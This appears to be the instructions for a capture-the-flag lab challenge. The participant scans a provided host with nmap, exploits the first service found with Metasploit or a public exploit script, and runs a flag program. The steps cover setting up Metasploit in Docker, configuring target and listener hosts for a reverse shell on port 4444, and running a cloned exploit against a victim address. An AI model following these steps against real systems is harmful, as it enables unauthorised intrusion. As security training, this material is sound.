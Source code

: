 Use nmap to scan for open ports of the host provided at the play link below, identify applications running on each port, use Metaploit or a exploit script you find online to take advantage of the first vulnerability.

#### Instructions for Completing the Challenge

- Run nmap
- Run Metasploit or an exploit script to take advantage of a vulnerability in the first identified app
- Execute commands remotely
- Find the flag program in the current directory and use it to sign the challenge salt: `./red_ch1.flag <SALT>`

#### Nmap
Nmap is a port scanner and a frequently utilized tool in the pocket of any pen-tester.

##### Installing Nmap
 
For RedHat/CentOS: `sudo yum install nmap`

For Debian/Ubuntu: `apt-get install nmap`

##### Scanning with Nmap

Once nmap is installed you can scan the target host with `nmap <target_host> -Pn -vv`

Other useful parameters are listed below:

* `-p` {PORT_NUMBERS}: Scan ports of the target. It can be a single port number or
a range of ports. Examples: `-p22,23,80` -> scan 22,23 and 80 , `-p8000-9000` -> scan a port range, `-p-` -> scan all the ports
* `-A`: Determine service/version and OS info.

For a detailed list of all parameters available please refer to the [Nmap Reference Guide](https://nmap.org/book/man.html).

Once you run nmap you will uncover a set of open ports. 
What services are running on those ports? Can you navigate to each service in a browser?

#### Metasploit

**Note**: this is the cooler option but you will need to get a bit of setup done and you need your exploit machine to be publicly accessible so the vulnerable machine can "call home".
If you're looking for the quick fix scroll down to the **Exploit Script** option below.

If you have Docker installed you can simply run the metasploit container image. Metasploit should be installed on a EC2 that is internet accessible to allow for the Meterpreter to run. 

##### Docker Install

* For RedHat/CentOS: `sudo yum install docker` or `sudo amazon-linux-extras install docker` (AWS Linux 2)
* For Debian/Ubuntu: `sudo apt install docker.io`

##### Running Docker

* Start Docker with: `sudo service docker start`
* Add permissions to your userto pull and run container images: `sudo usermod -a -G docker ec2-user`
* Logout and relogin.

##### Running the Metasploit Image


Pull metasploit docker image from DockerHub

`docker pull metasploitframework/metasploit-framework`

Run metasploit container, forward port 4444 (needed for reverse shell), make sure those ports are open in security groups etc in your metasploit machine

`docker run -it -p 4444-4450:4444-4450 metasploitframework/metasploit-framework`

Search for the exploit you'd like to use based on nmap results:

`search <name of the application you are looking to exploit>`

Select the exploit you are going to use from the search results:

`use <path/to/the/exploit>`

Set the host IP and port for the target machine
IMPORTANT, if your host is behind a load balancer you should choose 1 of the load balancer IPs for the attack. You can determine the ips with `nslookup <HOST_NAME>`

`set RHOSTS <host>`

`set RPORT <port>`

If your target is running on an encrypted port then you need to enable SSL

`set SSL true`

Set the host IP and port for the machine running Metasploit. This machine should be publcly available and accessible over ports 4444-4450

`set LHOST <remote IP of Metasploit machine>`

`set LPORT 4444`

Run the exploit!

`run`

This may fail in some cases, if it fails once reset the LHOST and run again

`set LHOST <remote IP of Metasploit machine>`
`run`

You should be able to get shell at this point and run commands in the container. 

To drop into a OS shell use the `shell` command.

Can you get the flag? Good luck!

If you want to learn more about Metasploit, please check out this free course from Offensive Security: [Metasploit Unleashed](https://www.offensive-security.com/metasploit-unleashed/)

#### Exploit Script

Before being ported to Metasploit for easy usage, exploits are usually released in the wild, in an ad-hoc way. Hackers can also take advantage of those to carry out their attacks. 

If the Metasploit option didn't work or you'd like to try another way of exploiting the same vulnerability, here it is:

In this scenario we are going to use a public exploit available on GitHub:

First, you need to clone the repository into your attacker's machine:

`git clone <exploit_github>`

Go to the project folder and install the library dependencies:

`cd <exploit_github>`

`sudo gem install highline`

You should be able to excute the exploit like so:

`./exploit.rb {VICTIM_IP_OR_URL:VICTIM_PORT}`

